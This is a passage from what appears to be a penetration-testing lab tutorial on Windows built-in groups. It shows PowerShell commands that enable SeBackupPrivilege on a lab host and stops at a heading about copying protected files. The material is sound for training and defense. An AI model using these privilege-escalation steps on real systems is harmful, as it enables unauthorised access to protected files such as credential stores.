 ```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Windows Built-in Groups

```powershell
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

#### Enabling SeBackupPrivilege

If the privilege is disabled, we can enable it with `Set-SeBackupPrivilege`.

Windows Built-in Groups

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

Windows Built-in Groups

```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

#### Copying a Protected File
